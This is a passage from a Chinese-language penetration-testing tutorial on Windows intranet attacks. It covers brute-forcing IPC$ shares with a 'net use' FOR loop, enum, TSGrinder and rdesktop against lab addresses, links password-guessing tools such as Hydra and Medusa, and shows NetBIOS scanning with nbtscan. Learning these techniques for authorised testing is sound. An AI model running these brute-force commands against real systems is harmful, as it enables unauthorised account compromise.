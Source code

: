 > *表示手动输入密码

也可以使用FOR语句来爆破密码，将`tokent.txt`的第一个字串赋值给`%i`（密码），将第二个字串赋值给`%j`(用户名)

```
FOR /F "tokens=1,2*" %i in (token.txt) do net use \\192.168.200.21\IPC$ %i /u:%j
```

![img](http://b404.xyz/img/hack/%E5%86%85%E7%BD%91/net_use_for.png)

也可以使用以下工具进行口令猜测：

- [enum](https://packetstormsecurity.com/files/download/31882/enum.tar.gz)
- [Brutus](http://www.hoobie.net/brutus/index.html)
- [THC Hydra](https://github.com/vanhauser-thc/thc-hydra)
- [Medusa](http://foofus.net/?page-id=51)

用enum爆破：

```
C:\Users\win2k8\Desktop>enum.exe -D -u Administrator -f credentials.txt 192.168.200.21
```

有时候也可以直接爆破远程桌面服务。

用[TSGrinder](http://www.hammerofgod.com/resources/downloads/tsgrinder-2.03.zip)爆破RDP：

```
C:\Users\win2k8\Desktop\tsgrinder-2.03>echo Admin 1>a  & tsgrinder.exe -w a -u Administrator -n 1 192.168.200.21 1>out
```

> 该工具主要针对于XP和2003，当用在win7的时候，需要将注册表`HKEY_CURRENT_USER\Software\Microsoft\Windows\Windows Error Reporting\Dont Show UI`设为1.

kali下的rdesktop爆破：

```
rdesktop -u Administrator -p token.txt 10.10.10.150
```

#### 扫描

**0x01 nbtscan:** 使用[nbtscan](http://www.unixwiz.net/tools/nbtscan.html)扫描：

```
nbtstat -m 192.168.200.21

nbtscan 192.168.200.0/24
```

![img](http://b404.xyz/img/hack/%E5%86%85%E7%BD%91/nbtscan.png)

> SHARING 表示开放来共享， DC 表示可能是域控，或者是辅助域控U=user猜测此计算机登陆名 IIS 表示运行来web80 EXCHANGE Microsoft Exchange服务 NOTES Lotus Notes服务

**0x02:WinScanX:**

WinScanX 需要登录账号能够获取目标很详细的内容。其中还有snmp获取,windows密码猜解(但是容易被杀,nishang中也实现出一个类似的信息获取/Gather/Get-Information.ps1)
